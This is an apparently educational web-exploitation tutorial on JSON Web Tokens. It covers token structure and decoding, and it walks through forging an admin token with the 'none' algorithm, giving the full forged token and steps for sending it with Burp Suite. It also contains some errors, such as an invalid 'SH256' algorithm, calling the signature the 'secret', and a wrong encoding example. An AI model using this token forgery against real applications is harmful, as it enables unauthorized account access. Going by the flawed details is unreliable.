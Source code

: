 # **Learning from the Field: Web Exploitation**

## **JWT**

JSON Web Token (JWT) is an Internet standard for creating data with optional signature and optional encryption. JWTs can be signed using a secret (with the HMAC algorithm) or a **public/private** key pair using **RSA** or **ECDSA**.

### **Usage of JWTs**

A very common use of a JWT token is as an API **authentication mechanism**. as well as **Information Exchange**.

#### **Authorization**

Once the user is logged in, the user can access everything allowed with that token.

#### **Information Exchange**

JWTs are useful in sharing information because they are signed by public/private keys as well as we can verify the token if it's tampered or not.

### **JSON Web Token structure**

JWTs cosists of 3 parts seperated by dots.

header.payload.signature

#### **Header**

Header consist of 2 things first one is **type of token** and another thing is **signing algorithm** like HMAC SHA256 or RSA.

For Example:

`Base64:    eyJhbGciOiAiU0gyNTYiLAogICJ0eXAiOiAiSldUIn0=`

After Decoding:

``` 
{
  "alg": "SH256",
  "typ": "JWT"
} 
```

#### **Payload**

Payload contains the claims. Claims are statements about the user and additional data about the user.

For Example:

`Base64: eyJpZCI6ICIxIiwKICAibmFtZSI6ICJBbmFzIEphbWFsIiwKICAiYWRtaW4iOiB0cnVlfQ==`

After Decoding:
```

{
    "id": "1",
  "name": "Anas Jamal",
  "admin": true
} 

```

#### Signature

For creating the signature part you have to take the base64 encoded header and payload, a secret, the algorithm specified in the header, and sign that.

For Example:

```

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  secret
  )
  ```

#### **All 3 Combined**

`Header + Payload + Secret`


```
eyJhbGciOiAiU0gyNTYiLAogICJ0eXAiOiAiSldUIn0.eyJpZCI6ICIxIiwKICAibmFtZSI6ICJBbmFzIEphbWFsIiwKICAiYWRtaW4iOiB0cnVlfQ.6pqwrq5XQFq3453rtw234fuZ4
```

### **Awesome, Now let's learn How To Hack Them**

Whenever you will recieve a jwt token first decode it and break it into parts like we have learnt in the above section.

`Header + Payload + Secret`

For decoding you can use:

1. Terminal  
2. [jwt.io](https://jwt.io/). 
3. Decoder tab in burp Suite

There are other ways for decoding the token too.

#### **Terminal**

Linux:

```
echo "eyJhbGciOiAiU0gyNTYiLAogICJ0eXAiOiAiSldUIn0" | base64 -d 
```

Mac OS:

```
echo "eyJhbGciOiAiU0gyNTYiLAogICJ0eXAiOiAiSldUIn0" | base64 -D 
```

Note: Keep in mind in mac os we use "D" instead of  "d".

#### **jwt.io**

just copy the whole token and paste it into `Encoded` Section and you will get decoded token in `Decoded` Section.

#### **Burp Suite Decoder**

Copy the whole token and go to burp suite `Decoder` tab and paste it there and select first part and click on `decode` as `base64` and do the same thing with other parts of the token.

**Note** : Don't include dot(`.`) while decoding the token.

#### **None Algorithm**

`None` Algorithm is used when the integrity of the token has been already verified but hackers can use this algorithm and can tamper the token and can gain unauthorized access. 
Let's See How

```
Token : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCJ9.6pqwrq5XQFq3453rtw234fuZ4
```

**JWT Token Break Down**:

1. eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9 (Header)
2. eyJ1c2VyIjoidGVzdCJ9 (Payload)
3. 6pqwrq5XQFq3453rtw234fuZ4 (Secret)

After Decoding:

Header:
```
{
    "alg":"HS256",
    "typ":"JWT"
}
```

Payload:
```
{
    "user":"test"
}
```
Now let's change "alg" from `HS256` to `None` and "user" from `test` to `admin`

Header After Changes:

```
{
    "alg":"None",
    "typ":"JWT"
}
```

Payload After Changes:
```
{
    "user":"admin"
}
```

Now base64 encode `Header` and `Payload` and send the new token to the web application with empty `secret`.

New Token:

```
eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```

For encoding we can use :

1. CyberChef

2. Burp Suite Decoder

3. Your Terminal

For encoding on Terminal just remove `-d` / `-D` let's see an example

```
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9" | base64
```

Very Simple right?

For sending Requests we can use:

1. Inspect Element > Go to cookies > replace the token with your new token.

2. Burp Suite Intercept or send the requests to repeater and play with the request.

So this is one simple way of hacking JWTs.
